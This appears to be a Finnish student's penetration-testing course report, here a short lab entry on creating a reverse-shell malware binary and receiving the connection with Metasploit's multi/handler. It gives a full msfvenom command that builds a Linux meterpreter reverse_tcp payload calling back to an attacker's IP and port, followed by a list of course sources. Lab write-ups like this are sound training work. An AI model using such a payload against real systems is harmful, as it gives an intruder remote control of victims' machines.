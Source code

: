 

## g) Tee msfvenom-työkalulla haittaohjelma, joka soittaa kotiin (reverse shell). Ota yhteys vastaan metasploitin multi/handler -työkalulla

Aloitin tehtävän, mutta koneeni jumittui kesken kaiken ja raportoimani kohdatkin hävisivät sitten kuin tuhka tuuleen. Jatkan tätä huomenna, sillä kello on kohta jo 1 yöllä.

Jatkoa 21.11.2024 9:50.

Aloitin komennolla ``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf``, joka löytyi [MSFVenom CheatSheetistä](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom#common-params-when-creating-a-shellcode). Sillä loin haittaohjelman. Sitten avasin msfconsolen ja etsin multi/handler-työkalun ja määritin LHOST, LPORT ja payloadin. Sitten run -> päällä. 

![image](https://github.com/user-attachments/assets/0d2a6461-5218-4b31-a1ea-0159ef59c868)




## Lähteet 

- Tehtävänanto: Karvinen, Tero. Tunkeutumistestaus. Julkaistu 10.5.2024. [https://terokarvinen.com/tunkeutumistestaus/](https://terokarvinen.com/tunkeutumistestaus/#h4-marraskuu2024)

- Karvinen, Tero. Cracking Passwords with Hashcat. 6.4.2022. [https://terokarvinen.com/2022/cracking-passwords-with-hashcat/](https://terokarvinen.com/2022/cracking-passwords-with-hashcat/)

- Karvinen, Tero. Crack File Password With John. 9.2.2023. [https://terokarvinen.com/2023/crack-file-password-with-john/](https://terokarvinen.com/2023/crack-file-password-with-john/)

- Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials (8 videos, about 30 min)
[https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/](https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/)

- Polop et al 2024: HackTricks: MSFVenom - CheatSheet [https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom)

- Karvinen, Tero. Fuffme - Install Web Fuzzing Target on Debian. 30.10.2023. [https://terokarvinen.com/2023/fuffme-web-fuzzing-target-debian/](https://terokarvinen.com/2023/fuffme-web-fuzzing-target-debian/)







